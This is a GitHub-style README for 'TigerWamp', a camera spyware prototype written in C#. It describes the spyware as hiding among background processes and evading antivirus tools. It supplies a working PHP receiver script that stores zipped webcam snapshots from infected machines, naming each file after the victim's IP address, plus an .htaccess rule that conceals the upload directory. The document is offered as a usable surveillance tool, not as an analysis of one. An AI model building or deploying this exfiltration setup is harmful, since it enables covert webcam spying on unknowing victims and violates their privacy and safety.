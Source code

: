 # TigerWamp Spyware
TigerWamp is a prototype camera spyware written in c# inspired by Pegasus!

At the time of publication, it could bypass Norton, MalwareBytes, and VirusTotal.
It runs as an invisible WPF application that hides in the middle of the background processes list.

To use it you need your own webserver directory "uploads/" and a php file "upload.php" with contents:

```php
<?php
$uploads_dir = './uploads/'; //Directory to save the file that comes from client application.

if ($_FILES["file"]["error"] == UPLOAD_ERR_OK && $_GET["key"] == "acdb9feb36ae9487032179261e5f12ea") {
    $tmp_name = $_FILES["file"]["tmp_name"];
    $name = $_FILES["file"]["name"];
    move_uploaded_file($tmp_name, "$uploads_dir/" . base64_encode($_SERVER['REMOTE_ADDR'] .".{" . time() . "}") . ".zip");
    echo "Ok.";
}
?> 
```
The spyware takes snapshots from the webcam (opencv cam 0). After every 40 captures the program compresses them in a zip file and uploads it to your web server.

# Recommended
Add this to your .htaccess file:
```.htaccess
RedirectMatch 404 ^/uploads/?$
```
It will make sure that only the owners of the webserver can access the content.
